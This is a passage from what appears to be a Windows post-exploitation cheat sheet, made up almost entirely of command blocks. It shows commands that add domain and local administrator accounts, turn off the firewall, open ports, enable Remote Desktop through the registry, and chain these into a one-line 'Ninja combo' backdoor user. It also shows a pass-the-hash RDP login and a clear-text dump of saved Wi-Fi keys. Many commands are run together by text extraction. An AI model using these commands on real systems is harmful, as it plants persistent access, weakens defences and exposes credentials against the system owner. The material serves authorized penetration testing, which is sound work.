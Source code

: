 ```
net user username password /ADD /DOMAINnet group "Domain Admins" username /ADD /DOMAIN​net user username password /ADDnet localgroup Administrators username /ADD​net localgroup "Remote Desktop Users" UserLoginName  /addnet localgroup "Debugger users" UserLoginName /addnet localgroup "Power users" UserLoginName /add
```

## Network <a href="#network" id="network"></a>

### Interfaces, Routes, Ports, Hosts and DNSCache <a href="#interfaces-routes-ports-hosts-and-dnscache" id="interfaces-routes-ports-hosts-and-dnscache"></a>

```
ipconfig /all route print arp -a netstat -ano type C:\WINDOWS\System32\drivers\etc\hostsipconfig /displaydns | findstr "Record" | findstr "Name Host"
```

### Firewall <a href="#firewall" id="firewall"></a>

```
netsh firewall show state netsh advfirewall firewall show rule name=allnetsh firewall show config Netsh Advfirewall show allprofiles​NetSh Advfirewall set allprofiles state off  NetSh Advfirewall set allprofiles state on  netsh firewall set opmode disable ​::How to open portsnetsh advfirewall firewall add rule name="NetBIOS UDP Port 138" dir=out action=allow protocol=UDP localport=138netsh advfirewall firewall add rule name="NetBIOS TCP Port 139" dir=in action=allow protocol=TCP localport=139netsh firewall add portopening TCP 3389 "Remote Desktop" ​::Enable Remote Desktopreg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /fnetsh firewall add portopening TCP 3389 "Remote Desktop"::netsh firewall set service remotedesktop enable ::sc config TermService start= auto ::net start Termservice ​::Enable Remote assistance:reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /fnetsh firewall set service remoteadmin enable​::Ninja combo (New Admin User, RDP + Rassistance + Firewall allow)net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable​::Connect to RDP (using hash or password)xfreerdp /u:alice /d:WORKGROUP /pth:b74242f37e47371aff835a6ebcac4ffe /v:10.11.1.49xfreerdp /u:hacker /d:WORKGROUP /p:Hacker123! /v:10.11.1.49
```

```
net view net view /all /domain [domainname] net view \\computer /ALL net use x: \\computer\share net share 
```

### Wifi <a href="#wifi" id="wifi"></a>

```
netsh wlan show profile netsh wlan show profile <SSID> key=clear 
```

### SNMP <a href="#snmp" id="snmp"></a>

